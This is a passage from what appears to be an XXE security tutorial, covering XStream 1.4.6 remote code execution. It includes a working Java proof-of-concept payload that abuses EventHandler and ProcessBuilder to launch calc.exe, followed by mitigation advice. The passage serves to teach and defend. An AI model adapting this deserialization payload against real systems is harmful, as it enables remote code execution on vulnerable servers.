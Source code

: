 ```

To get RCE its harder and you need the server application to use PHP. I won't be getting in to details, just check this [link](//gardienvirtuel.ca/fr/actualites/from-xml-to-rce.php) on how it happens.

### XXE in XStream

There is also a known vulnerability in old versions of [XStream](https://x-stream.github.io/security.html) that allows you to do RCE, but this is specific to this library and its not XXE, although its with XML as well . Lets see very quickly how it works.

I used XStream version 1.4.6 to test this, with the following code:

```java
package com.securitywhitepapers.xxe;

import javax.xml.stream.XMLStreamException;

public class XStream {

    public static void main(String[] args) throws XMLStreamException {
        
        com.thoughtworks.xstream.XStream xstream = new com.thoughtworks.xstream.XStream();
        
        //payload to open calc.exe
        String payload = "<sorted-set>" +
                "<string>foo</string>" +
                "<dynamic-proxy>" +
                "<interface>java.lang.Comparable</interface>" +
                "<handler class=\"java.beans.EventHandler\">" +
                " <target class=\"java.lang.ProcessBuilder\">" +
                " <command>" +
                " <string>calc.exe</string>" +
                " </command>" +
                " </target>" +
                " <action>start</action>" +
                "</handler>" +
                "</dynamic-proxy>" +
                "</sorted-set>";

        Contact expl = (Contact) xstream.fromXML(payload);
    }
}
```

And if you run it, you will see a calculator opening. To prevent this you either update XStream to a new version which is the best approach, or you can see a workaround in the official [documentation](https://x-stream.github.io/CVE-2013-7285.html#workaround)

And now how can you fix XXE for the other parsers?

### Preventing External Entities attacks
